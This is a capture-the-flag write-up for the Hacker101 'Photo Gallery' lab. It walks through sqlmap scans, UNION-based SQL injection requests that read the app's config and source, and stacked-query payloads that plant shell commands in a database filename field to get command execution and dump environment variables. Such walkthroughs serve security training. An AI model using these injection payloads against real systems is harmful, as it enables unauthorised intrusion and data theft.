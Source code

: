 ```yaml
---
title: Hacker101 CTF Photo Gallery [moderate] writeup
subtitle: a write up for this web challenge
description: A write up for the Photo Gallery [moderae] challenge
published: true
datePublished: 1609676431536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - security
thumbnailPhoto: /hackerone/hackerone-photogallery-thumb.jpg
bannerPhoto: /hackerone/hackerone
canonicalUrl:
---
```


# Photo Gallery _[moderate]_

This is my Write Up for the "Photo Gallery" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to be an image gallery, but one of the images is broken.
The missing one is called `Invisible`, so lets look into that.

```
http://34.74.105.127/ad3e8c7df9/
```

![initial page](/hackerone/photogallery-start.png "initial page")

## Information gathering

with Burp we were able to find that the server returns no content for this image.
images are loaded with a `GET` Request to the server like so:

`GET /ad3e8c7df9/fetch?id=1 HTTP/1.1`

this also aligns with the first tip we are provided:

> Hint 1: _Consider how you might build this system yourself. What would the **query for fetch** look like?_

naturally we start fuzzing the `id` parameter.

```python
GET /ad3e8c7df9/fetch?id=4 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=0 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=-1 HTTP/1.1 # 500
```

alright, no quick wins, so let's give it a try with fizzing using sqlmap.
Quickly we are able to see that the server seems to be vulnerable to some attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2"
```

This command runs for quite a while and will try to find vulnerabilities in the fetch endpoint.
when we are done we should know what to do next.

## Gathered Data

### sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:

```python
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3567=3567

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 8480 FROM (SELECT(SLEEP(5)))KHRS)
```

```python
[21:44:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

### Our Target Server:

    | Type      | Service      | Version                  | Vulnerable?    |
    | --------- | ------------ | ------------------------ | -------------- |
    | OS        | Linux Ubuntu | ??                       | not focused    |
    | Webserver | Nginx        | 1.14.0                   | no             |
    | Database  | MySQL        | >= 5.0.12 (MariaDB fork) | yes (id param) |

Good, we got something, we know the server is vulnerable to multiple vulnerabilities such as a 'boolean base blind'. We also found the Webserver is Nginx v1.14.0, which sadly has no usable vulnerabilities here. But with us now knowing the exact os and DB System used lets run sqlmap again with that info and see what we get.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2" -f --os=linux --dbms=mysql --level=3 -o
```

we dont really get any more useful information from here.
soo.. were kinda stuck lets just get another hint then:

> Hint 2: _Take a few minutes to consider the **state of the union**_

The state uf the union? are they hinting on using UNION statements in the query?
_The UNION operator is used to combine the result-set of two or more SELECT statements._
That seems like somethng we can make use of, so lets try and combine our query statements f.e. like this:

`http://34.74.105.127/ad3e8c7df9/fetch?id=2 UNION SELECT 'something'`

but what do we look for? Lets get another hint.

> Hint 3: _This application runs on the **uwsgi-nginx-flask-docker** image_

uwsgi-nginx? hmm havent heard of that, but sems to be some kind of portable all in one flask. lets look for the docs.

https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files

> uWSGI can be configured using several different methods.

YAML, JSON, INI are some supported formats -> ini beeing the defualt so lets try getting the 'uwsgi.ini' file?

![union select wiht burp repeater](/hackerone/union-select-ini.png "union select wiht burp repeater")

this returns us some configdata pointing to module main which is the entrypoint.

```python
[uwsgi]
module = main
callable = app
```

so lets see if we can also fethc the main.py

```python
http://35.190.155.168/c947e97f6e/fetch?id=4%20UNION%20SELECT%20%27main.py%27--
```

Here we get lots of infos our **first FLAG** and the db connection settings:

### FLAG 0:

```python
%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404)
# It's dangerous to go alone, take this: # ^FLAG^9e6d57c394c129??????????????????????????????f74dbf2faa0abd571b32c7$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```

`return MySQLdb.connect(host="localhost", user="root", password="", db="level5")`

we also see that they are using the photos table

`cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`

lets try to fuzz that with sqlmap, since we now know the DB and tables info we can launch a targeted attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=1" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 2
```

This can take quite a while.. for me it crashed after 40 minutes, so i gave it another go with just focusing on the column `filename` since, here is the value we need.we do this by adding the -C parameter, i also increased the thradcount to 4 to try and get faster results. I also changed the url to contain id=3 since this is the id we want to get the info from.

```python
sqlmap -u "http://35.190.155.168/c947e97f6e/fetch?id=3" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 4 -C filename
```

This means that sqlmap will start with the filename of id=3 which is exactly what we want right now.

![starts to query filename of id 3](/hackerone/photo-gallery-hash.png "query on the filename of id 3")
So lets have a look at our results:

```python
Database: level5
Table: photos
[3 entries]
+------------------------------------------------------------------+
| filename |
+------------------------------------------------------------------+
| 9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa |
| files/adorable.jpg |
| files/purrfect.jpg |
+------------------------------------------------------------------+
```

> you might be getting partial values like so:
> `9ef8fc5di15625db993f1c8e120beafc6873d801a804670?????????????????`
> you should be able to re-run sqlmap to find the missing characters
> `9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa`

decrypted: `\*||+ls+-a+tmp.txt`
another file! nice lets try and get that with a UNION STATEMENT request like so:

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'tmp.txt'-- HTTP/1.1`
hmm no luck it seems... let's do it another way.

From our previous findings we know that files are in the 'files' directory and that we can run sql statements on the id param. So we want to try to move the file or its contents so we can access it. We also got a new hint of using ls output to find temp file.

We want to run following statements via the vulnerable param:

#### ls in the /files directory and store data in bigWin.txt

`update photos set filename='* || ls ./files >bigWin.txt ' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename=%27\*%20||%20ls%20./files%20%3EbigWin.txt%20%27%20where%20id=3;%20commit;%20-- HTTP/1.1`

#### store all env data in bigWin.txt (because so often flags are here)

`update photos set filename='* || env >bigWin.txt' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename%3D%27*%20%7C%7C%20env%20%3Etmp.txt%27%20where%20id%3D3%3B%20commit%3B%20-- HTTP/1.1`

after you succsessfully ran those you should be able to run the union select again to get ahold of bigWin.txt!

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'bigWin.txt'-- HTTP/1.1`

Tadaa!! we got it all.

```bash
"^FLAG^9ef8fc5da15????????????????????????????????????????????782ca11fa$FLAG$"
"^FLAG^63a407d0083????????????????????????????????????????????4564ee9f2$FLAG$"
HOSTNAME=ad3e8c7df92d
SHLVL=0
```
